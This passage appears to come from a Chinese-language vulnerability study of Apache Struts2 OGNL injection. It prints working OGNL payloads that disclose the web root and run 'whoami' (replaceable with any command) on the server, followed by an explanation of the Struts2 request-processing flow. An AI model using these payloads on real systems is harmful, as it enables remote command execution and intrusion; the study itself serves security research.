 ![image-20201216131356193](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201216131356193.png)

```
获取web路径  %{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()} 
```

![image-20201216131525241](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201216131525241.png)

查看权限poc

> %{
>
> \#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
>
> \#b=#a.getInputStream(),
>
> \#c=new java.io.InputStreamReader(#b),
>
> \#d=new java.io.BufferedReader(#c),
>
> \#e=new char[50000],
>
> \#d.read(#e),
>
> \#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
>
> \#f.getWriter().println(new java.lang.String(#e)),
>
> \#f.getWriter().flush(),#f.getWriter().close()
>
> }

![image-20201216131838642](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201216131838642.png)

执行任意命令时只需要，将上面poc里whoami的命令替换



## 0X03 S2框架&&请求处理流程

![image-20201222140210554](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201222140210554.png)

在该图中，一共给出了四种颜色的标识，其对应的意义如下。

- Servlet Filters(橙色)：过滤器，所有的请求都要经过过滤器的处理。
- Struts Core(浅蓝色)：Struts2的核心部分。
- Interceptors(浅绿色)：Struts2的拦截器。
- User created(浅黄色)：需要开发人员创建的部分。

图中的一些组件的作用如下：
